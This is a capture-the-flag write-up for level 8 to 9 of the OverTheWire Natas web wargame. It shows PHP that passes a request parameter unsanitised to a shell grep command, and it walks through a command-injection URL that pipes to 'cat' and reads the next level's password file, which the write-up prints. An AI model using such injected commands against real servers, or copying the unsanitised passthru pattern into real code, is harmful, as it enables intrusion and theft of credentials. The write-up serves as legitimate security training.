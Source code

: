 # Level 8 - Level 9: Natas - OverTheWire

## Level Goal

Username: natas9
URL:      http://natas9.natas.labs.overthewire.org

## Solution
As these levels start getting more complicated, I am going to use the web browser more often to speed up navigation. For this level, we have another input form and sourcecode:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

From what I see, it appears that the value we submit in the input form will be passed as the `needle` request parameter. This value will then be executed on the webserver using the PHP `passthru()` function. A `grep` command will then be executed, searching for our input in a `dictionary.txt` file.

The `passthru()` function is similar to the `exec()` function in that it executes a command, both of which are often susceptible to command injetion attacks when not handled with **extreme** caution.

We can verify this is the case by requesting `http://natas9.natas.labs.overthewire.org/?needle=test`, which offers several results of words in the `dictionary.txt` file that include `test`:

```html
Output:
<pre>
Protestant
Protestant's
Protestants
abruptest
```

Now, to test if this is vulnerable, we can try adding a flag to `grep`. For example, searching `test` gives us several results that include the `test` characters. If we add ` -v` to the request, it will invert the match, so we should see hundreds of results that **do not** include `test`:

`http://natas9.natas.labs.overthewire.org/?needle=test%20-v` returns:

```html
Output:
<pre>

African
Africans
Allah
Allah's
American
Americanism
```

Since we were able to "inject" an additional flag to the executed command, this looks like it may be vulnerable!

To skip the trial and error, I eventually found out it was possible to pipe the end of the command (`|`) and execute the `cat` command. Using a similar directory traversal attack like in `Level 06 - 07`, we can `cat` the `../../../../etc/natas_webpass/natas10` file to reveal the password.

In the below URL, notice the spaces are URL-encoded to `%20`:

`http://natas9.natas.labs.overthewire.org/?needle=test%20|%20cat%20../../../../etc/natas_webpass/natas10`

And we get the following output, containing the password:

```html
Output:
<pre>
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

African
Africans
Allah
Allah's
...
...
...
```